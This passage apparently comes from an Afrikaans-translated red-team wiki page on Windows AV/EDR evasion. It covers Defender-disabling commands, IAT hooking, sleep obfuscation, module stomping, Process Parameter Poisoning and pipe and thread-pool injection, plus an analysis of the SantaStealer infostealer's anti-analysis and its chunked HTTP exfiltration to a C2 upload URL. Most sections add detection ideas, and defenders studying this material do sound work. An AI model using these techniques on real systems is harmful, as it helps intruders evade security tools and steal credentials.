Jy behoort die nuwe prosespad onder `C:\TMP\AV\` te sien, en die dienskonfigurasie/-register behoort na daardie ligging te verwys.

Post-exploitation-opsies
- DLL sideloading/code execution: Plaas/vervang DLLs wat Defender uit sy toepassingsgids laai om kode in Defender se prosesse uit te voer. Sien die afdeling hierbo: [DLL Sideloading & Proxying](#dll-sideloading--proxying).
- Diensafskakeling/-ontsegging: Verwyder die weergawe-symlink sodat die gekonfigureerde pad met die volgende aanvang nie opgelos kan word nie en Defender nie kan begin nie:
```cmd
rmdir "C:\ProgramData\Microsoft\Windows Defender\Platform\5.18.25070.5-0"
```

> [!TIP]
> Let daarop dat hierdie tegniek nie op sy eie voorregte-eskalasie bied nie; dit vereis adminregte.

## API/IAT Hooking + Call-Stack Spoofing with PIC (Crystal Kit-style)

Red teams kan runtime evasion uit die C2-implantaat verskuif en na die teikenmodule self bring deur sy Import Address Table (IAT) te hook en geselekteerde API's deur aanvallerbeheerde, posisie-onafhanklike kode (PIC) te stuur. Dit veralgemeen evasion verder as die beperkte stel API's wat baie kits beskikbaar stel (bv. CreateProcessA), en brei dieselfde beskerming uit na BOFs en post-exploitation-DLL's.<sup>[[3]](#references)[[4]](#references)[[5]](#references)</sup>

Hoëvlakbenadering
- Stasieer 'n PIC-blob langs die teikenmodule met 'n reflektiewe laaier (vooraf bygevoeg of as metgesel). Die PIC moet selfstandig en posisie-onafhanklik wees.
- Terwyl die gasheer-DLL laai, deurloop sy IMAGE_IMPORT_DESCRIPTOR en pas die IAT-inskrywings vir geteikende invoere (bv. CreateProcessA/W, CreateThread, LoadLibraryA/W, VirtualAlloc) aan om na dun PIC-wrappers te wys.
- Elke PIC-wrapper voer evasion uit voordat dit die werklike API-adres met 'n tail call aanroep. Tipiese evasion sluit in:
  - Geheuemaskering/-ontmaskering rondom die aanroep (bv. enkripteer beacon-streke, RWX→RX, verander bladsyname/-toestemmings), en herstel dit dan ná die aanroep.
  - Call-stack spoofing: bou 'n skynbaar normale stack en skakel oor na die teiken-API sodat call-stack-ontleding die verwagte rame vind.<sup>[[9]](#references)</sup>
- Voer vir versoenbaarheid 'n koppelvlak uit sodat 'n Aggressor-skrip (of ekwivalent) kan registreer watter API's vir Beacon, BOFs en post-exploitation-DLL's gehook moet word.

Waarom IAT hooking hier
- Werk vir enige kode wat die gehookte invoer gebruik, sonder om tool-kode te wysig of op Beacon staat te maak om spesifieke API's as proxy te gebruik.
- Dek post-exploitation-DLL's: deur LoadLibrary* te hook, kan jy moduleladings onderskep (bv. System.Management.Automation.dll, clr.dll) en dieselfde maskering-/stack-evasion op hul API-aanroepe toepas.
- Herstel betroubare gebruik van post-exploitation-opdragte wat prosesse skep teen call-stack-gebaseerde opsporing deur CreateProcessA/W te omhul.

Minimale skets van IAT hooking (x64 C/C++-pseudokode)
```c
// For each IMAGE_IMPORT_DESCRIPTOR
//  For each thunk in the IAT
//    if imported function == "CreateProcessA"
//       WriteProcessMemory(local): IAT[idx] = (ULONG_PTR)Pic_CreateProcessA_Wrapper;
// Wrapper performs: mask(); stack_spoof_call(real_CreateProcessA, args...); unmask();
```
Notas
- Pas die patch toe ná relocations/ASLR en voor die eerste gebruik van die import. Reflective loaders soos TitanLdr/AceLdr demonstreer hooking tydens DllMain van die gelaaide module.
- Hou wrappers klein en PIC-safe; resolve die ware API via die oorspronklike IAT-waarde wat jy vasgelê het voordat jy patch, of via LdrGetProcedureAddress.
- Gebruik RW → RX-oorgange vir PIC en vermy om bladsye skryfbaar én uitvoerbaar te laat.

Call-stack spoofing stub
- Draugr-styl PIC-stubs bou ’n vals call chain (return addresses in benign modules) en pivot dan na die ware API.
- Dit omseil detections wat kanonieke stacks van Beacon/BOFs na sensitiewe APIs verwag.
- Kombineer dit met stack cutting/stack stitching-tegnieke om binne verwagte frames te land voor die API-prologue.

Operasionele integrasie
- Voeg die reflective loader vooraan post-ex-DLLs sodat die PIC en hooks outomaties initialiseer wanneer die DLL gelaai word.
- Gebruik ’n Aggressor script om target APIs te registreer sodat Beacon en BOFs deursigtig by dieselfde evasion path baat vind, sonder kodeveranderinge.

Detection/DFIR-oorwegings
- IAT-integriteit: entries wat na nie-image- (heap/anon-)adresse resolve; periodieke verifikasie van import pointers.
- Stack-anomalieë: return addresses wat nie aan gelaaide images behoort nie; skielike oorgange na nie-image-PIC; inkonsekwente RtlUserThreadStart-afstamming.
- Loader-telemetrie: in-process-skrywings na IAT, vroeë DllMain-aktiwiteit wat import thunks wysig, onverwagte RX-regions wat tydens load geskep word.
- Image-load-evasion: as jy LoadLibrary* hook, monitor verdagte loads van automation/clr-assemblies wat met memory-masking-events korreleer.

Verwante boublokke en voorbeelde
- Reflective loaders wat IAT-patching tydens load uitvoer (bv. TitanLdr, AceLdr)
- Memory-masking-hooks (bv. simplehook) en stack-cutting-PIC (stackcutting)
- PIC call-stack-spoofing-stubs (bv. Draugr)


## Import-Time IAT Hooking + Sleep Obfuscation (Crystal Palace/PICO)

### Import-time IAT-hooks via ’n resident PICO

As jy ’n reflective loader beheer, kan jy imports **tydens** `ProcessImports()` hook deur die loader se `GetProcAddress`-pointer met ’n pasgemaakte resolver te vervang wat hooks eerste nagaan:<sup>[[6]](#references)[[7]](#references)[[8]](#references)</sup>

- Bou ’n **resident PICO** (persistent PIC object) wat voortbestaan nadat die transient loader PIC homself bevry.
- Export ’n `setup_hooks()`-funksie wat die loader se import resolver oorskryf (bv. `funcs.GetProcAddress = _GetProcAddress`).
- Slaan ordinal imports oor in `_GetProcAddress` en gebruik ’n hash-gebaseerde hook-lookup soos `__resolve_hook(ror13hash(name))`. As ’n hook bestaan, gee dit terug; andersins delegeer na die werklike `GetProcAddress`.
- Registreer hook targets tydens link time met Crystal Palace `addhook "MODULE$Func" "hook"`-entries. Die hook bly geldig omdat dit binne die resident PICO leef.

Dit lewer **import-time IAT-redirection** sonder om die gelaaide DLL se code section ná load te patch.

### Dwing hookable imports af wanneer die target PEB-walking gebruik

Import-time-hooks word net geaktiveer as die funksie werklik in die target se IAT is. As ’n module APIs via ’n PEB-walk + hash resolveer (sonder ’n import entry), dwing ’n werklike import af sodat die loader se `ProcessImports()`-pad dit kan sien:

- Vervang hashed export resolution (bv. `GetSymbolAddress(..., HASH_FUNC_WAIT_FOR_SINGLE_OBJECT)`) met ’n direkte verwysing soos `&WaitForSingleObject`.
- Die compiler genereer ’n IAT-entry, wat interception moontlik maak wanneer die reflective loader imports resolveer.

### Ekko-style sleep/idle obfuscation sonder om `Sleep()` te patch

In plaas daarvan om `Sleep` te patch, hook die **werklike wait/IPC-primitives** wat die implant gebruik (`WaitForSingleObject(Ex)`, `WaitForMultipleObjects`, `ConnectNamedPipe`). Vir lang waits, omhul die call in ’n Ekko-styl obfuscation chain wat die in-memory image tydens idle enkripteer:<sup>[[31]](#references)[[27]](#references)</sup>

- Gebruik `CreateTimerQueueTimer` om ’n reeks callbacks te skeduleer wat `NtContinue` met vervaardigde `CONTEXT`-frames aanroep.
- Tipiese chain (x64): stel image op `PAGE_READWRITE` → RC4-enkripteer via `advapi32!SystemFunction032` oor die volledige mapped image → voer die blocking wait uit → RC4-dekripteer → **herstel per-section-permissions** deur PE-sections te deurloop → sein voltooiing.
- `RtlCaptureContext` verskaf ’n `CONTEXT`-template; kloon dit in verskeie frames en stel registers (`Rip/Rcx/Rdx/R8/R9`) om elke stap aan te roep.

Operasionele detail: gee “success” terug vir lang waits (bv. `WAIT_OBJECT_0`) sodat die caller voortgaan terwyl die image gemasker is. Hierdie patroon verberg die module vir scanners tydens idle-vensters en vermy die klassieke “patched `Sleep()`”-signature.

Detection-idees (telemetrie-gebaseer)
- Groepe `CreateTimerQueueTimer`-callbacks wat na `NtContinue` wys.
- `advapi32!SystemFunction032` wat op groot, aaneenlopende buffers so groot soos ’n image gebruik word.
- Groot `VirtualProtect`-reekse, gevolg deur pasgemaakte per-section-permission-herstel.

### Runtime CFG-registrasie vir sleep-obfuscation-gadgets

Op CFG-geaktiveerde targets sal die eerste indirekte jump na ’n mid-function-gadget soos `jmp [rbx]` of `jmp rdi` gewoonlik die proses laat crash met `STATUS_STACK_BUFFER_OVERRUN`, omdat die gadget nie in die module se CFG-metadata voorkom nie. Om Ekko/Kraken-styl chains binne geharde prosesse aan die gang te hou:<sup>[[30]](#references)</sup>

- Registreer elke indirekte bestemming wat die chain gebruik met `NtSetInformationVirtualMemory(..., VmCfgCallTargetInformation, ...)` en `CFG_CALL_TARGET_VALID`-entries.
- Vir adresse binne gelaaide images (`ntdll`, `kernel32`, `advapi32`) moet die `MEMORY_RANGE_ENTRY` by die **image base** begin en die **volle image size** dek.
- Gebruik eerder die **allocation base** en allocation size vir handmatig gemapte/PIC/stomped regions.
- Merk nie net die dispatch-gadget nie, maar ook exports wat indirek bereik word (`NtContinue`, `SystemFunction032`, `VirtualProtect`, `GetThreadContext`, `SetThreadContext`, wait/event-syscalls) en enige aanvaller-beheerde executable sections wat indirekte targets sal word.

Dit verander ROP/JOP-styl sleep chains van “werk net in nie-CFG-prosesse” na ’n herbruikbare primitive vir `explorer.exe`, browsers, `svchost.exe` en ander endpoints wat met `/guard:cf` saamgestel is.

### CET-safe stack spoofing vir slapende threads

Volledige `CONTEXT`-vervanging is opvallend en kan op CET Shadow Stack-stelsels breek omdat ’n vervalste `Rip` steeds met die hardeware-shadow-stack moet ooreenstem. ’n Veiliger sleep-masking-patroon is:<sup>[[30]](#references)</sup>

- Kies ’n ander thread in dieselfde proses en lees sy `NT_TIB` / TEB-stackgrense (`StackBase`, `StackLimit`) via `NtQueryInformationThread`.
- Rugsteun die huidige thread se werklike TEB/TIB.
- Leg die werklike slaapkonteks vas met `GetThreadContext`.
- Kopieer **slegs** die werklike `Rip` na die spoof-context en laat die vervalste `Rsp`/stack-state onveranderd.
- Kopieer gedurende die sleep-venster die spoof-thread se `NT_TIB` na die huidige TEB sodat stack walkers binne ’n geldige stack-reeks unwind.
- Herstel ná afloop van die wait die oorspronklike TIB en thread-context.

Dit behou ’n CET-konsekwente instruction pointer terwyl dit EDR-stack walkers mislei wat TEB-stack-metadata vertrou om unwinds te valideer.

### APC-gebaseerde alternatief: Kraken Mask

As timer-queue-dispatch te herkenbaar is, kan dieselfde sleep-encrypt-spoof-restore-volgorde vanuit ’n suspended helper thread met queued APCs uitgevoer word:<sup>[[27]](#references)</sup>

- Skep ’n helper thread met `NtTestAlert` as entrypoint.
- Queue voorbereide `CONTEXT`-frames/APCs met `NtQueueApcThread` en verwerk hulle met `NtAlertResumeThread`.
- Stoor die chain-state op die heap in plaas van die helper stack om te voorkom dat die verstekthread-stack van 64 KB uitgeput raak.
- Gebruik `NtSignalAndWaitForSingleObject` om die start event atomies te sein en te blokkeer.
- Suspend die main thread voordat jy die TIB/context herstel (`NtSuspendThread` → restore → `NtResumeThread`) om die race window waarin ’n scanner ’n halfherstelde stack kan vang, te verklein.

Dit verruil die `CreateTimerQueueTimer` + `NtContinue`-signature vir ’n helper-thread/APC-signature, terwyl dieselfde RC4-masking- en stack-spoofing-doelwitte behoue bly.

Bykomende detection-idees
- `NtSetInformationVirtualMemory` met `VmCfgCallTargetInformation` kort voor sleeps, waits of APC-dispatch.
- `GetThreadContext`/`SetThreadContext` rondom `WaitForSingleObject(Ex)`, `NtWaitForSingleObject`, `NtSignalAndWaitForSingleObject` of `ConnectNamedPipe`.
- `NtQueryInformationThread` gevolg deur direkte skrywings na die huidige thread se TEB/TIB-stackgrense.
- `NtQueueApcThread`/`NtAlertResumeThread`-chains wat indirek `SystemFunction032`, `VirtualProtect` of section-permission-herstelhelpers bereik.
- Herhaalde gebruik van kort gadget-signatures soos `FF 23` (`jmp [rbx]`) of `FF E7` (`jmp rdi`) as dispatch-pivots binne signed modules.


## Precision Module Stomping

Module stomping voer payloads uit die **`.text`-section van ’n DLL wat reeds binne die target-proses gemap is** uit, in plaas daarvan om ooglopende private executable memory toe te ken of ’n nuwe sacrificial DLL te laai. Die overwrite-teiken moet ’n **gelaaide, disk-backed image** wees waarvan die code space die payload kan huisves sonder om code paths wat die proses steeds nodig het, te beskadig.<sup>[[1]](#references)[[2]](#references)</sup>

### Betroubare target selection

Naïewe stomping teen algemene modules soos `uxtheme.dll` of `comctl32.dll` is broos: die DLL is dalk nie in die remote process gelaai nie, en ’n te klein code region sal die proses laat crash. ’n Betroubaarder workflow is:

1. Lys die target-proses se modules en hou ’n **names-only-include-list** van DLLs wat reeds gelaai is.
2. Bou eers die payload en teken sy **presiese byte size** aan.
3. Skandeer kandidaat-DLLs op skyf en vergelyk die PE-section se **`.text` `Misc_VirtualSize`** met die payload se size. Dit is belangriker as die lêergrootte omdat dit die grootte van die executable section **wanneer dit in memory gemap is** weerspieël.
4. Parse die **Export Address Table (EAT)** en kies ’n exported function-RVA as die stomp-startoffset.
5. Bereken die **blast radius**: as die payload die gekose function boundary oorskry, sal dit aangrensende exports wat daarna in memory gelê is, oorskryf.

Tipiese recon/selection-helpers wat in die praktyk voorkom:

```cmd
list-process-dlls.exe -p <PID> -n -o c:\payloads\modules.txt
python find-stompable-dlls.py -d c:\Windows\System32 -i c:\payloads\modules.txt <payload_size>
python dump-exports.py -f <dll_path>
python blast-radius.py -f <dll_path> -fnc <export_name> -s <payload_size>
```

Bedryfsnotas
- Verkies DLLs wat **reeds gelaai** is in die afgeleë proses om die telemetrie van `LoadLibrary`/onverwagte image loads te vermy.
- Verkies exports wat die teikentoepassing selde uitvoer; anders kan normale kodepaaie die stomped bytes tref voor of ná thread creation.
- Groot implants vereis dikwels dat shellcode-inbedding van ’n string literal na ’n **byte-array/braced initializer** verander word sodat die volledige buffer korrek in die injector-bronkode voorgestel word.

Opsporingsidees
- Afgeleë skryfbewerkings na image-backed executable pages (`MEM_IMAGE`, `PAGE_EXECUTE*`) in plaas van die meer algemene private RWX/RX allocations.
- Export entry points waarvan die bytes in die geheue nie meer ooreenstem met die backing file op skyf nie.
- Remote threads of context pivots wat begin uitvoer binne ’n legitieme DLL-export waarvan die eerste bytes onlangs gewysig is.
- Verdagte `VirtualProtect(Ex)` / `WriteProcessMemory`-reekse teen DLL `.text`-bladsye, gevolg deur thread creation.

## Process Parameter Poisoning (P3)

Process Parameter Poisoning (P3) is ’n **process-injection / EDR-evasion**-tegniek wat die klassieke remote write-pad (`VirtualAllocEx` + `WriteProcessMemory`) vermy. In plaas daarvan om bytes na ’n reeds lopende teiken te kopieer, misbruik dit die feit dat Windows geselekteerde `CreateProcessW`-opstartparameters na die child process **kopieer** en dit binne `PEB->ProcessParameters` (`RTL_USER_PROCESS_PARAMETERS`) stoor.<sup>[[28]](#references)[[29]](#references)</sup>

### Poisonable carriers copied by `CreateProcessW`

Nuttige carriers is:

- `lpCommandLine` → `RTL_USER_PROCESS_PARAMETERS.CommandLine`
- `lpEnvironment` (met `CREATE_UNICODE_ENVIRONMENT`) → `RTL_USER_PROCESS_PARAMETERS.Environment`
- `STARTUPINFO.lpReserved` → `RTL_USER_PROCESS_PARAMETERS.ShellInfo`

Praktiese carrier-beperkings:

- `lpCommandLine` moet na **skryfbare geheue** wys vir `CreateProcessW`, en is beperk tot **32,767 Unicode-karakters**, insluitend die nulterminator.
- `lpEnvironment` moet ’n Unicode-omgewingsblok wees met opeenvolgende `NAME=VALUE\0`-stringe wat deur ’n ekstra `\0` beëindig word.
- `lpReserved` is amptelik gereserveer, dus moet die `ShellInfo`-kartering as ’n implementeringsdetail eerder as ’n stabiele, gedokumenteerde kontrak beskou word.

Dit maak normale prosesaanmaak die **payload-oordragprimitief**. Die operateur skep die child process met aanvallerbeheerde opstartdata en laat Windows die interproseskopie uitvoer.

### Remote lookup flow without remote write APIs

Nadat die child geskep is, los die gekopieerde buffer met **slegs-lees**-primitiewe op:

1. `NtQueryInformationProcess(ProcessBasicInformation)` → kry `PROCESS_BASIC_INFORMATION.PebBaseAddress`
2. Lees die afgeleë `PEB`
3. Volg `PEB.ProcessParameters`
4. Lees `RTL_USER_PROCESS_PARAMETERS`
5. Gebruik die geselekteerde pointer:
   - `parameters.CommandLine.Buffer`
   - `parameters.Environment`
   - `parameters.ShellInfo.Buffer`

Minimale vloei:

```c
NtQueryInformationProcess(hProcess, ProcessBasicInformation, &pbi, sizeof(pbi), &retLen);
NtReadVirtualMemoryEx(hProcess, pbi.PebBaseAddress, &peb, sizeof(peb), &bytesRead, 0);
NtReadVirtualMemoryEx(hProcess, peb.ProcessParameters, &params, sizeof(params), &bytesRead, 0);
// params.CommandLine.Buffer / params.Environment / params.ShellInfo.Buffer
```

### Uitvoering van die gekopieerde parameterbuffer

Die gekopieerde parameterstreek is gewoonlik `RW`, nie uitvoerbaar nie. ’n Algemene P3-ketting is:

1. Skep die proses normaalweg (nie opgeskort nie)
2. Maak die gekose parameterbladsy uitvoerbaar met `NtProtectVirtualMemory` / `VirtualProtectEx`
3. Hergebruik die hoofdraad-hanteerder wat reeds in `PROCESS_INFORMATION` teruggegee is
4. Herlei uitvoering met `NtSetContextThread` (`CONTEXT_CONTROL`, oorskryf `RIP`)

Anders as klassieke draadkaping-werkvloeie, **vereis dit nie** `SuspendThread` / `ResumeThread` nie; die konteks kan direk op die teruggekeerde hoofdraad-hanteerder verander word.

Dit vermy verskeie API’s wat algemeen vir inspuiting gemonitor word:

- `VirtualAllocEx` / `NtAllocateVirtualMemory(Ex)`
- `WriteProcessMemory` / `NtWriteVirtualMemory`
- `CreateRemoteThread` / `NtCreateThreadEx`
- dikwels ook `SuspendThread` / `ResumeThread`

### Nulgreepbeperking en gefaseerde shellcode

Al drie draers is **string- of stringagtige data**, dus word ’n rou loonvrag wat `0x00` bevat tydens oordrag afgekap. ’n Praktiese oplossing is ’n **nulgrepvrye eerste fase** wat konstantes tydens looptyd herbou en dan ’n arbitrêre tweede fase laai.

’n Eenvoudige patroon is XOR-gebaseerde sintese van konstantes:

```asm
mov rax, XOR_A
mov r15, XOR_B
xor rax, r15 ; result = desired value, without embedding 0x00 bytes
```

Dit laat die eerste stadium toe om stack-stringe, API-argumente, DLL-paaie of ’n second-stage shellcode-loader te bou sonder om null-grepe in die oorgedraagde parameter in te sluit.

### Stack-gebaseerde API-oproepe vanaf die eerste stadium

Wanneer die eerste stadium API’s soos `LoadLibraryA` moet aanroep, kan dit:

- die string/buffer op die teiken se stack plaas
- die **32-byte x64 shadow space** reserveer
- `RCX`, `RDX`, `R8`, `R9` op konstantes of `RSP`-relatiewe wysers stel
- `RSP` **16-byte-belyn** hou voordat dit die oproep uitvoer

’n Tweede stadium kan dan vanaf die stack na ’n `PAGE_READWRITE`-toekenning gekopieer word, met `VirtualProtect` na `PAGE_EXECUTE_READ` verander word en daarna uitgevoer word, wat ’n direkte RWX-toekenning vermy.

### Opsporingsidees

Goeie ondersoekgeleenthede wat die outeurs noem:

- `VirtualProtectEx` / `NtProtectVirtualMemory` wat **prosesparameterbladsye uitvoerbaar maak**
- daardie beskermingsverandering, gevolg deur `SetThreadContext` / `NtSetContextThread`
- afgeleë leesbewerkings van `PEB` en daarna `RTL_USER_PROCESS_PARAMETERS`
- buitengewoon lang / hoë-entropie-waardes vir `lpCommandLine`, `lpEnvironment` of `STARTUPINFO.lpReserved` tydens prosesskepping

### Aantekeninge

- P3 is ’n **oordragtruuk tussen prosesse**, nie op sigself ’n volledige uitvoeringsprimitief nie: die gekopieerde parameter benodig steeds ’n verandering van uitvoertoestemming en ’n metode om uitvoering daarheen te herlei.
- Die outeurs het `RtlCreateProcessReflection` / Dirty Vanity oorweeg, maar dit verwerp omdat dit intern verdagte primitiewe soos `NtWriteVirtualMemory` en `NtCreateThreadEx` bereik.

Vir payload-aflewering in ’n **bestaande** Windows-proses deur middel van thread-beskrywings, gevolg deur kaping van die terugkeeradres van ’n wagtende thread, sien [Thread Name-Calling and Waiting Thread Hijacking](windows-process-injection-thread-name-calling-waiting-thread-hijacking.md).

## Console STDIN-pypinspuiting

’n Interaktiewe console-child kan ook as die **payload-oordragprimitief** gebruik word. Die injector herlei die child se standaardinvoer na ’n pyp en stuur ’n merker gevolg deur shellcode. Nadat die console-program die data in sy eie private geheue ingelees het, vind die injector daardie buffer, maak dit uitvoerbaar en herlei ’n child-thread daarheen. Dit vermy `VirtualAllocEx` en `WriteProcessMemory`, maar dit bly prosessinspuiting eerder as ’n algemene EDR-omseiling.<sup>[[41]](#references)</sup>

Ondanks die beskrywing as ’n "named-pipe", roep die verwysingsimplementering `CreatePipe` aan, wat ’n **anonieme pyp** skep. Windows implementeer anonieme pype intern met uniek benoemde pypobjekte, maar die PoC kies nie ’n `\\.\pipe\<name>`-pad nie en roep ook nie `CreateNamedPipe` aan nie. Dit skep handvatsels wat oorgeërf kan word met ’n versteksekuriteitsbeskrywer, plaas die leeshandvatsel in `STARTUPINFO.hStdInput`, stel `STARTF_USESTDHANDLES` in en begin ’n nuwe child met handvatseloorerwing geaktiveer. Hierdie PoC begin dus die verskafte console-uitvoerbare lêer; dit koppel nie sy pyp aan ’n bestaande proses nie.<sup>[[41]](#references)[[42]](#references)[[43]](#references)</sup>

### Verwysingswerkvloei

Die implementering gebruik die volgende ketting:<sup>[[41]](#references)</sup>

1. Skep anonieme pyp-pare vir die child se `STDIN` en `STDOUT`. Skakel oorerwing op die twee handvatsels aan die ouerkant af en sluit die duplikate aan die child-kant in die ouer nadat die proses geskep is.
2. Begin ’n interaktiewe uitvoerbare lêer soos `netsh.exe` of `nslookup.exe` met `CREATE_NEW_CONSOLE`. Die child erf die herleide standaardhandvatsels.
3. Stuur die volledige binêre `rawData`-skikking met `WriteFile` deur die ouerkant se `STDIN`-handvatsel. Die console-program verbruik die grepe en laat ’n kopie daarvan in een van sy private, toegewyde geheuegebiede agter.
4. Deursoek die child se adresruimte met `VirtualQueryEx`, lees kandidaat-`MEM_PRIVATE`-gebiede met `ReadProcessMemory` en soek die merker aan die begin van `rawData`.
5. Verander die ontdekte buffer na `PAGE_EXECUTE_READWRITE` met `VirtualProtectEx`.
6. Identifiseer die hooftread, skort dit op, stel `RIP` met `NtSetContextThread` op `found_address + 0x19` en hervat dit.

```powershell
InjectSetConsole.exe C:\Windows\System32\netsh.exe
```

Die verskafde implementering is x64-spesifiek: dit wysig `CONTEXT.Rip`, en die ingebedde payload is x64-shellcode. `rawData` begin met ’n merker van 25 grepe, dus begin die uitvoerbare grepe by heksadesimale offset `0x19`. Wanneer jy die payload vervang, behou daardie uitleg of werk die merker, soekvektor, skikkinggrootte en uitvoeringsoffset saam op. Die bronkommentaar lys ook `0x0A`, `0x0D` en `0x1A` as ongeldige karakters. Hierdie workflow verander nie die kindproses se token of regte nie.<sup>[[41]](#references)</sup>

Sien [Windows C Payloads](windows-local-privilege-escalation/windows-c-payloads.md) vir klein native helpers en payload-kompilasiepatrone.

## Thread-pool callback DLL-inspuiting sonder shellcode (DLLParty)

DLLParty pas PoolParty-styl thread-pool-inspuiting aan sodat ’n bestaande target-worker `LoadLibraryA` aanroep, eerder as om ’n ingespuite callback-stub uit te voer. Die dispatch-primitief is ’n `TP_DIRECT`-voltooiing wat na die I/O completion port van die target-pool in die tou geplaas word. Dit omseil nie prosestoestemmings nie: die PoC roep `OpenProcess(PROCESS_ALL_ACCESS)` aan en benodig leesbare/skryfbare target-geheue, plus worker-factory- en completion-port-handvatsels wat gedupliseer kan word.<sup>[[46]](#references)[[47]](#references)</sup>

Op Windows x64 stuur die worker ’n wyser na sy stapelgesteunde `TP_CALLBACK_INSTANCE` in `RCX`, die eerste callback-argument. `LoadLibraryA` interpreteer dieselfde wyser as ’n `LPCSTR`. Op die getoetste pad bou `TppWorkerThread` die wyser by `RSP+0x178`, terwyl sy eerste gewone skrywing na daardie objek by `RSP+0x1d0` plaasvind. ’n Nul-terminerende DLL-pad wat binne hierdie voorvoegsel van 0x58 grepe pas, kan dus aan die begin van die instance geplaas word sonder dat dit voor dispatch oorskryf word. Dit is ’n bou-spesifieke waarneming, nie ’n gedokumenteerde Windows ABI-waarborg nie.<sup>[[46]](#references)[[47]](#references)</sup>

Die verwysingsworkflow is:<sup>[[46]](#references)[[47]](#references)</sup>

1. Tel die target se handvatsels op met `NtQuerySystemInformation(SystemHandleInformation)` en identifiseer `TpWorkerFactory` deur objeksoorte te navraag. Dupliseer ’n worker-factory-handvatsel en navraag `WorkerFactoryBasicInformation`; `StartParameter` gee die remote `TP_POOL`. Slaan factories met `TotalWorkerCount == 0` oor.
2. Lees `TP_POOL.CompletionPort` en loop deur die pool se private worker-lys. Op die getoetste Windows 10 19045 x64-bou (`ntdll.dll 10.0.19041.4842`) is die kop by `pool+0x60`; elke skakel is by `worker+0x10`, dus is die callback-instance-gleuf by `worker+0x38` gelyk aan `link+0x28`. Die PoC kontroleer wyserbelyning, skakel-wederkerigheid, pooleienaarskap, nie-nul thread-ID’s, herhaalde nodusse en ’n stabiele lyskoppunt.
3. Skryf die DLL-pad na **elke** herwonne worker-gleuf, aangesien enige worker die voltooing wat in die tou geplaas is, kan verwerk. Plaas ’n `TP_DIRECT` met `Callback = LoadLibraryA` in skryfbare target-geheue. Die PoC gebruik `last_slot-0x500` op ’n worker-stapel in plaas van `VirtualAllocEx`; daardie offset is eksperimenteel en mag nie met aktiewe stapeldata bots nie.
4. Dupliseer die target se completion-port-handvatsel en roep `ZwSetIoCompletion(port, remote_direct, 0, 0, 0)` aan. Die remote `TP_DIRECT`-adres is die voltooiingsleutel. ’n Bestaande worker roep dan `LoadLibraryA` aan met sy oorskryfde callback-instance-wyser en laai ’n DLL wat reeds vir die target toeganklik is.

Die PoC neem ’n target-PID (`DLLParty.exe <target_pid>`) en gebruik ’n hardgekodeerde DLL-pad in `DLLParty.cpp`; stel ’n pad in wat vir die target toeganklik is voordat jy ’n x64-uitvoerbare lêer bou. Dit gebruik ook die `LoadLibraryA`-adres van sy eie proses as die remote callback, dus neem dit aan dat daardie adres in die target geldig is. Die kode kontroleer nie die padlengte teenoor die voorvoegsel van 0x58 grepe nie, en ook nie of worker-deurloop ’n gleuf gevind het voordat die laaste element geïndekseer word nie. Valideer die private offsets, stapeluitleg en skryfbare ruimte vir die target-bou weer. Die weglating van `CreateRemoteThreadEx`, shellcode en `VirtualAllocEx` skakel kruisproses-skrywings of DLL-laai-telemetrie nie uit nie.<sup>[[46]](#references)[[47]](#references)</sup>

## SantaStealer se Tradecraft vir Fileless-ontduiking en Geloofsbriewediefstal

SantaStealer (ook bekend as BluelineStealer) wys hoe moderne info-stealers AV-ontduiking, anti-analise en toegang tot geloofsbriewe in ’n enkele workflow kombineer.<sup>[[24]](#references)</sup>

### Sleutelborduitleg-kontrole en sandbox-vertraging

- ’n Konfigurasievlag (`anti_cis`) tel geïnstalleerde sleutelborduitlegte op via `GetKeyboardLayoutList`. As ’n Cyrilliese uitleg gevind word, laat die sample ’n leë `CIS`-merker agter en termineer voordat stealers loop. Dit verseker dat dit nooit op uitgeslote locales ontplof nie, terwyl dit ’n artefak vir opsporing agterlaat.

```c
HKL layouts[64];
int count = GetKeyboardLayoutList(64, layouts);
for (int i = 0; i < count; i++) {
    LANGID lang = PRIMARYLANGID(HIWORD((ULONG_PTR)layouts[i]));
    if (lang == LANG_RUSSIAN) {
        CreateFileA("CIS", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, 0, NULL);
        ExitProcess(0);
    }
}
Sleep(exec_delay_seconds * 1000); // config-controlled delay to outlive sandboxes
```

### Gelaagde `check_antivm`-logika

- Variant A loop deur die proseslys, hash elke naam met ’n pasgemaakte rollende kontrolesom en vergelyk dit met ingebedde blocklists vir debuggers/sandboxes; dit herhaal die kontrolesom oor die rekenaarnaam en kontroleer werkgidse soos `C:\analysis`.
- Variant B inspekteer stelseleienskappe (minimum prosesgetal, onlangse bedryfstyd), roep `OpenServiceA("VBoxGuest")` aan om VirtualBox additions op te spoor, en voer tydtoetse rondom slaaptye uit om single-stepping op te spoor. Enige treffer laat die proses staak voordat modules begin.

### Lêerlose helper + dubbele ChaCha20-reflektiewe laai

- Die primêre DLL/EXE bevat ’n Chromium-aanmeldbewyshelper wat óf na skyf geskryf óf met die hand in die geheue gemap word; lêerlose modus los invoere/herplasings self op sodat geen helperartefakte geskryf word nie.
- Daardie helper stoor ’n tweedestadium-DLL wat twee keer met ChaCha20 geïnkripteer is (twee 32-greep-sleutels + 12-greep-nonces). Ná albei deurgange laai dit die blob reflektief (geen `LoadLibrary` nie) en roep die exports `ChromeElevator_Initialize/ProcessAllBrowsers/Cleanup` aan, afgelei van [ChromElevator](https://github.com/xaitax/Chrome-App-Bound-Encryption-Decryption).<sup>[[25]](#references)</sup>
- Die ChromElevator-roetines gebruik reflektiewe process hollowing met direkte stelseloproepe om in ’n aktiewe Chromium-blaaier in te spuit, AppBound Encryption-sleutels te erf, en wagwoorde/koekies/kredietkaarte direk uit SQLite-databasisse te dekripteer ondanks ABE-verharding.

### Modulêre geheue-inversameling en HTTP-exfil in blokke

- `create_memory_based_log` loop deur ’n globale `memory_generators`-funksiewysertabel en skep een thread per geaktiveerde module (Telegram, Discord, Steam, skermskote, dokumente, blaaieruitbreidings, ens.). Elke thread skryf resultate na gedeelde buffers en rapporteer sy lêertelling ná ’n aansluitingsvenster van ongeveer 45 sekondes.
- Wanneer dit klaar is, word alles met die staties gekoppelde `miniz`-biblioteek as `%TEMP%\\Log.zip` saamgepers. `ThreadPayload1` slaap dan 15 sekondes en stroom die argief in blokke van 10 MB via HTTP POST na `http://<C2>:6767/upload`, met ’n blaaier se `multipart/form-data`-grens (`----WebKitFormBoundary***`) nagemaak. Elke blok voeg `User-Agent: upload`, `auth: <build_id>` en opsioneel `w: <campaign_tag>` by; die laaste blok voeg `complete: true` by sodat die C2 weet dat die hersamestelling klaar is.

## References

